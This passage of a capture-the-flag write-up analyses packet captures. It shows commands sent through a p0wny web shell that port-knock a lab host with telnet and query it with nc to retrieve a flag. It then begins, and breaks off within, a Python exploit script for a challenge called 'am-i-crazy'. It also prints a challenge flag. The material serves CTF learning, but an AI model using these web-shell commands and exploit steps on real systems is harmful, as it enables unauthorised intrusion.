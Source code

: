 cmd=telnet%2010.5.0.6%2010001%3Btelnet%2010.5.0.6%2010002%3Btelnet%2010.5.0.6%2010003%3Btelnet%2010.5.0.6%205000%3Btelnet%2010.5.0.6%2010008%3Btelnet%2010.5.0.6%205000%3Btelnet%2010.5.0.6%206000%3Btelnet%2010.5.0.6%2019999%3B%20echo%20'GET%20%2F%20HTTP%2F1.1%5Cr%5Cn%5Cr%5Cn'%20%7C%20nc%2010.5.0.6%205000&cwd=%2Fvar%2Fwww%2FhtmlHTTP/1.1 200 OK
Date: Tue, 01 Dec 2020 22:24:24 GMT
Server: Apache
Content-Length: 258
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{"stdout":["Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","Trying 10.5.0.6...","(UNKNOWN) [10.5.0.6] 5000 (?) : Connection refused"],"cwd":"\/var\/www\/html"}
```

Seeing attempts on other ports then 1234, we excluded all 1234 traffic in the PCAP. One interesting HTTP response was show towards port 5000:
```
GET / HTTP/1.1


HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 69
Server: Werkzeug/1.0.1 Python/2.7.12
Date: Tue, 01 Dec 2020 22:25:13 GMT
```
This resulted in _Connection refused_ for the attacker, but we see a different port sequnce used by the succesfull request. The following command was used to get the flag:
```
p0wny@shell:/web# telnet 10.5.0.6 10001;telnet 10.5.0.6 10002;telnet 10.5.0.6 10003;telnet 10.5.0.6 22;telnet 10.5.0.6 445; echo 'GET / HTTP/1.1\r\n\r\n' | nc 10.5.0.6 5000
Trying 10.5.0.6...
Trying 10.5.0.6...
Trying 10.5.0.6...
Trying 10.5.0.6...
Trying 10.5.0.6...
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 69
Server: Werkzeug/1.0.1 Python/2.7.12
Date: Mon, 07 Dec 2020 15:43:44 GMT

ctf{4fde84cc72b033f0834f1181c4e1dc77a82a595c3652c8b9d02b28b8e1b62124}
```

### am-i-crazy
```python
#!/usr/bin/env python3
import re
import requests
import sys


def main(url, cmd):
    print(f"command len: {len(cmd)}")
    if len(cmd) > 15:
        print("cmd too long!")
        return

    data = { "password": "foobardeadbeefdsadsa" }
    req = requests.post(url, data=data)

    tmp = req.content.decode("utf-8")
    idx = tmp.index("/secrets")
    secret = tmp[idx:].split("'")[0]
```